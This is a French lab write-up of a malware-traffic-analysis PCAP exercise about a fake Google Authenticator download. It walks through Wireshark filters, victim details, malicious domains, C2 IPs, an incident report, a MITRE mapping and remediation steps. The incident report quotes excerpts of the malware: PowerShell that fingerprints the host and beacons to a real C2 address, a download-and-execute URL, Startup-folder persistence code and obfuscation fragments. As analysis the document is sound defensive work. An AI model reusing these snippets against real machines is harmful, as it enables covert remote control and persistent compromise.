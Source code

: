 ## 🕵️‍♂️ MTA-2025-01-22

🔍[Source](https://www.malware-traffic-analysis.net/2025/01/22/index.html) 


---

### 📌 Contexte

- Un utilisateur télécharge un faux logiciel (Google Authenticator) depuis un site frauduleux, entraînant l’infection de son poste Windows et la communication avec plusieurs serveurs C2. 
- Ce document contient une **analyse pas-à-pas avec captures d’écran** pour chaque question.
  
<img src="images/open.png" alt="open" width="800"/>

---

### 🧰 Outils utilisés

- [Wireshark](https://www.wireshark.org/download.html)
- [Kali Linux](https://www.kali.org/)
- [VMware](https://www.vmware.com/products/desktop-hypervisor/workstation-and-fusion)
- [VirusTotal](https://www.virustotal.com/gui/home/upload)
- [MITRE ATT&CK](https://attack.mitre.org/)
- [CyberChef](https://gchq.github.io/CyberChef/)

---

### 📝 Questions & Analyse

#### Q1. What is the IP address of the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Ouvrir le PCAP (via terminal ou fichier directement)

  - Étape 2 : Filtrer le fichier avec le Basic filter pour trouver la première requête HTTP suspecte

        (http.request or tls.handshake.type == 1) and !(ssdp)
</details>


<details>
  <summary>✅ Réponse</summary>
  
`10.1.17.215`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q1.png" alt="q1" width="800"/>
</details>


---

#### Q2. What is the mac address of the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Filtrer le fichier avec le Basic filter pour trouver la première requête HTTP suspecte

        (http.request or tls.handshake.type == 1) and !(ssdp)
</details>


<details>
  <summary>✅ Réponse</summary>
  
`00:d0:b7:26:4a:74`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q2.png" alt="q2" width="800"/>
</details>


---

#### Q3. What is the host name of the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Dans certains PCAPs, tu peux retrouver le nom d’hôte Windows de la victime grâce au trafic **NBNS ou SMB/SMB2**. Utiliser le filtre approprié.

        nbns or smb or smb2
</details>


<details>
  <summary>✅ Réponse</summary>
  
`DESKTOP-L8C5GSJ`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q3.png" alt="q3" width="800"/>
</details>


---

#### Q4. What is the user account name from the infected Windows client?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Filtrer les paquets Kerberos provenant de la machine infectée.
  
          ip.src == 10.1.17.215 and kerberos.CNameString
    
  - Étape 2 : Inspecter le champ `CNameString` dans le panneau *Packet Details* pour relever le nom d’utilisateur.
</details>


<details>
  <summary>✅ Réponse</summary>
  
`shutchenson`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q4.png" alt="q4" width="800"/>
</details>


---

#### Q5. What is the likely domain name for the fake Google Authenticator page?
<details>
    <summary>💡 Étapes</summary>
    
- Étape 1 : Appliquer un filtre pour isoler les requêtes DNS émises par l’hôte 10.1.17.215.
  
      ip.src == 10.1.17.215 && (dns && dns.flags.response == 0) && dns.qry.name matches "(auth|google|authenticator)"
  
      ⚠️ dns.flags.response == 0 pour ne filtrer que les DNS queries initiées par le client.
- Étape 2 : Repérer le ou les domaines suspects qui imitent Google Authenticator.

      ⚠️ Un domaine avec une faute de frappe évidente (ex. double "o") est généralement un signe de domaine malicieux.

- Étape 3 : Vérifier les réponses DNS pour obtenir les adresses IPv4 résolues par ces domaines.
    
        (dns.qry.name == google-authenticator.burleson-appliance.net || dns.qry.name == authenticatoor.org) && dns.flags.response == 1 && dns.qry.type == 1

      ⚠️ dns.flags.response == 1 capture uniquement les réponses (!= client).
      ⚠️ dns.qry.type == 1 limite aux enregistrements A (== IPv4).
  
- Étape 4 : Vérifier la réputation des domaines/IP suspects via [VirusTotal](https://www.virustotal.com/gui/home/upload).



</details>  

<details>
  <summary>✅ Réponse</summary>
  
`google-authenticator.burleson-appliance.net`

`authenticatoor.org`
</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q5a.png" alt="q5a" width="800"/>
<img src="images/q5b.png" alt="q5b" width="800"/>
<img src="images/q5c.png" alt="q5c" width="800"/>
<img src="images/q5d.png" alt="q5d" width="800"/>
<img src="images/q5e.png" alt="q5e" width="800"/>
<img src="images/q5f.png" alt="q5f" width="800"/>
<img src="images/q5g.png" alt="q5g" width="800"/>
<img src="images/q5h.png" alt="q5h" width="800"/>
<img src="images/q5i.png" alt="q5i" width="800"/>
<img src="images/q5j.png" alt="q5j" width="800"/>
<img src="images/q5k.png" alt="q5k" width="800"/>
</details>


<details>
  <summary>🔗 Liens VirusTotal</summary>
    
[google-authenticator.burleson-appliance[.]net](https://www.virustotal.com/gui/domain/google-authenticator.burleson-appliance.net)

[authenticatoor[.]org](https://www.virustotal.com/gui/domain/authenticatoor.org)

[104.21.64[.]1](https://www.virustotal.com/gui/ip-address/104.21.64.1)

[82.221.136[.]26](https://www.virustotal.com/gui/ip-address/82.221.136.26)

</details>


---


#### Q6. What are the IP addresses used for C2 servers for this infection?
<details>
    <summary>💡 Étapes</summary>

  - Étape 1 : Appliquer un filtre pour identifier tous les adresses IP sortants de l’hôte infecté.

        ip.src == 10.1.17.215 && (http.request or tls.handshake == 1 or (tcp.flags.syn == 1 && tcp.flags.ack == 0)) && !(ssdp) && ip.dst != 10.1.17.0/24
        
  - Étape 2 : Filtrer les adresses IP internes/légitimes
    
          ⚠️ Trafic vers réseau interne (10.1.17.0/24)
          ⚠️ Services connus comme Microsoft, Google, Edge, etc.

  - Étape 3 : Vérifier la réputation des adresses IP suspects via [VirusTotal](https://www.virustotal.com/gui/home/upload).
</details>


<details>
  <summary>✅ Réponse</summary>
  
`5.252.153[.]241`

`45.125.66[.]32`

`45.125.66[.]252`

</details>

<details>
  <summary>📷 Captures</summary>
<img src="images/q6a.png" alt="q6a" width="800"/>
<img src="images/q6b.png" alt="q6b" width="800"/>
<img src="images/q6c.png" alt="q6c" width="800"/>
</details>

<details>
  <summary>🔗 Liens VirusTotal</summary>

[5.252.153[.]241](https://www.virustotal.com/gui/ip-address/5.252.153.241)

[45.125.66[.]32](https://www.virustotal.com/gui/ip-address/45.125.66.32)

[45.125.66[.]252](https://www.virustotal.com/gui/ip-address/45.125.66.252)

</details>


---

### 🕵️‍♂️ Rapport d'incident
<details>

    
#### 📌 Résumé

Le 2025-01-22 à 15:03 UTC, un poste Windows utilisé par l’utilisateur `shutchenson` a été compromis suite au téléchargement d’un logiciel frauduleux depuis un site imitant Google Authenticator (`authenticatoor[.]org`).

Le malware a installé plusieurs fichiers malveillants, mis en place un mécanisme de persistance au démarrage, et établi une communication avec plusieurs serveurs de command-and-control (C2) pour assurer un contrôle continu de la machine compromise.

---

#### 🖥️ Détails de la victime

- Nom d'utilisateur : `shutchenson`
- Nom d'hôte : `DESKTOP-L8C5GSJ`
- IP locale : `10.1.17[.]215`
- Adresse MAC : `00:d0:b7:26:4a:74`

---
#### 🚨 Indicateurs de compromission (IoCs)

Domaines/URLs suspects :
- `google-authenticator.burleson-appliance[.]net`
- `authenticatoor[.]org` 

Serveurs C2 :
- `5.252.153[.]241`
- `45.125.66[.]32`
- `45.125.66[.]252`

Ports :
- `TCP/80 (HTTP)`
- `TCP/443 (HTTPS)`

Fichiers suspects :
- `TeamViewer[.]exe` 
- `TV[.]dll` 
- `pas[.]ps1`
- `skqllz[.]ps1`

Persistance :
- Raccourci dans le dossier Startup `%APPDATA%\Microsoft\Windows\Start Menu\Programs\Startup\TeamViewer.ln`

---

#### 🔍 Analyse Détaillée
<details>
    
1️⃣ Extraction et exécution de scripts

- Le client effectue une requête `GET /api/file/get-file/264872` et récupère un composant HTML contenant un **VBScript**.
- Le VBScript télécharge et exécute un script PowerShell depuis `http://5.252.153[.]241:80/api/file/get-file/29842.ps1`.
- L’exécution est masquée grâce à `-WindowStyle Hidden` et `start /min`.
- Ouverture d’un site légitime (https://azure.microsoft.com) pour distraire l’utilisateur.
- Gestion des erreurs avec `On Error Resume Next` afin d’assurer la continuité du script.

2️⃣ PowerShell initial (`29842.ps1`)

- Contient une chaîne Base64 dissimulée via `.replace()`.
- Décodage et exécution dynamique avec `Invoke-Expression`.
- Identification de l’hôte **via le numéro de série du disque C:**

```$fso = New-Object -Com "Scripting.FileSystemObject"
$SerialNumber = $fso.GetDrive("c:\").SerialNumber
$SerialNumber = [convert]::toint64($SerialNumber,16)
$serial = $SerialNumber
$ip = 'http://5.252.153.241/'
$url = $ip+$serial
```

- Boucle infinie de téléchargement et exécution de commandes depuis le serveur C2, avec l'ajout de pauses de 5 secondes pour limiter la détection.

3️⃣ Téléchargement de fichiers et persistance

- Création du dossier `C:\ProgramData\huo` et téléchargement de plusieurs fichiers :
- `TeamViewer.exe` → exécutable principal
- `Teamviewer_Resource_fr.dll` → bibliothèque de support
- `TV.dll` → bibliothèque additionnelle
- `pas.ps1` → script secondaire
- Création d’un raccourci dans le dossier Startup pour assurer la persistance (`.lnk`):

```
$shortcutPath = "$([Environment]::GetFolderPath('Startup'))\TeamViewer.lnk"
Create-Shortcut $startupFilePath $shortcutPath
```

4️⃣ PowerShell furtif (`skqllz.ps1`)

- Décodage Base64 pour générer le script principal ([CyberChef](https://gchq.github.io/CyberChef/) pour décodage)
  - Script dissimulé avec des variables aléatoires, concaténations et remplacement de caractères.
```
$NOtpWmSIdODGSpZw = 'dXNpb'
$AwoVYrdnaRqwQwIR = ('PjbXUKllmrzPjbXUKmcgU' -split 'PjbXUK')[2]
$bipxzxdxTeWltRuZETo = $NOtpWmSIdODGSpZw + $AwoVYrdnaRqwQwIR
$AkEiJsIqpXZniGUAcwgi = '3lzdG'
$GQXMEUFkfQKNrHz = $AkEiJsIqpXZniGUAcwgi
$lNcnDkYznZYNGS = 'V}t}O}w}p}'.replace('}', '')
$roSPFHOnzUB = $lNcnDkYznZYNGS
$xtZaRGRfwoDKOIahvtc = '1&c&2&'.replace('&', '')
$IDdoQNfyQZT = 'luZ'
$XiGbBTVOcETNtwj = ('qrTLBVPRRAHmqrTLBVPyBTeXqrTLBVPvJTdeqrTLBVPPDQbxSu' -split 'qrTLBVP')[2]
$bPJnndNVDE = $xtZaRGRfwoDKOIahvtc + $IDdoQNfyQZT + $XiGbBTVOcETNtwj
$iMomIPCvExLjuGt = 'N$0$Z$W$'.replace('$', '')
$aMCdlKxvWQWiMMrpeNo = '0uR'

```

- Exécution en arrière-plan via `Start-Process`.
- Envoi régulier de logs au serveur C2 avec la fonction `Send-Log`.




5️⃣ Investigation des fichiers dans [VirusTotal](https://www.virustotal.com/gui/home/url)

<img src="images/export.png" alt="export" width="800"/>

- Le fichier `[TeamViewer[.]exe]` a été télécharger directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : `904280f20d697d876ab90a1b74c0f22a83b859e8b0519cb411fda26f1642f53e `
- Type : Win32 EXE file
- Community score : flagged 0 sur 72 == probablement clean (ou non reconnu)
- [Lien VirusTotal](https://www.virustotal.com/gui/file/904280f20d697d876ab90a1b74c0f22a83b859e8b0519cb411fda26f1642f53e/details)

---

- Le fichier `[TeamViewer_Resource[.]dll]` a été télécharger directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : `9634ecaf469149379bba80a745f53d823948c41ce4e347860701cbdff6935192 `
- Type : Win32 DLL file
- Community score : flagged 0 sur 72 == probablement clean (ou non reconnu)
- [Lien VirusTotal](https://www.virustotal.com/gui/file/9634ecaf469149379bba80a745f53d823948c41ce4e347860701cbdff6935192/details)

---

- Le fichier `[TV[.]txt]` a été télécharger directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : `3448da03808f24568e6181011f8521c0713ea6160efd05bff20c43b091ff59f7`
- Type : Win32 DLL file
- Community score : flagged par 44 sur 72 == probablement malveillant
- [Lien VirusTotal](https://www.virustotal.com/gui/file/3448da03808f24568e6181011f8521c0713ea6160efd05bff20c43b091ff59f7/details)

---

- Le fichier `pas[.]ps1` a été télécharger directement depuis le PCAP (`Files -> Export Objects -> HTTP`)
- SHA-256 : `a833f27c2bb4cad31344e70386c44b5c221f031d7cd2f2a6b8601919e790161e`
- Type : TXT file
- Community score : flagged par 24 sur 60 == probablement malveillant
- [Lien VirusTotal](https://www.virustotal.com/gui/file/a833f27c2bb4cad31344e70386c44b5c221f031d7cd2f2a6b8601919e790161e/details)




</details>

---

#### 🕵️ MITRE ATT&CK Mapping
<details>
    
| Tactique                     | Technique (ID)                              | Description |
|-------------------------------|--------------------------------------------|------------------|
| Initial Access                | [Drive-by Compromise (T1189)](https://attack.mitre.org/techniques/T1189/)                | Téléchargement du logiciel frauduleux depuis un site imitant Google Authenticator |
| Execution                     | [PowerShell (T1059.001)](https://attack.mitre.org/techniques/T1059/001/)                     | Exécution de scripts PowerShell dissimulés |
| Persistence                   | [Startup Items (T1547.001)](https://attack.mitre.org/techniques/T1547/001/)                  | Raccourci dans le dossier Startup pour exécution automatique |
| Defense Evasion               | [Obfuscated Files or Information (T1027)](https://attack.mitre.org/techniques/T1027/)   | Scripts PowerShell et VBScript fortement dissimulés |
| Command and Control (C2)      | [Web Service (T1071.001)](https://attack.mitre.org/techniques/T1071/001/)                    | Communication avec serveur C2 via HTTP |
| Discovery                     | [System Information Discovery (T1082)](https://attack.mitre.org/techniques/T1082/)      | Récupération du numéro de série du disque pour identification unique |

</details>

---

#### 🛡️ Actions correctives recommandées

1. **Isolation** : déconnecter le poste pour stopper toute propagation.
2. **Blocage des IP malveillantes** : filtrer les adresses C2 sur le pare-feu et la passerelle.
3. **Analyse forensique** : identifier tous les fichiers et scripts malveillants sur le poste et le réseau.
4. **Audit des logs** : détecter toute activité suspecte supplémentaire.
5. **Renforcement des défenses** : mettre à jour antivirus, solutions EDR et restrictions PowerShell.
6. **Sensibilisation des utilisateurs** : rappeler les bonnes pratiques pour éviter les téléchargements depuis des sources non fiables.

---

#### 🔹 Conclusion

L’incident a été limité à un seul poste à ce stade, mais le potentiel de propagation et d’exfiltration de données reste élevé. La mise en œuvre rapide des actions correctives est cruciale pour sécuriser l’environnement et prévenir d’éventuelles attaques futures.
</details>

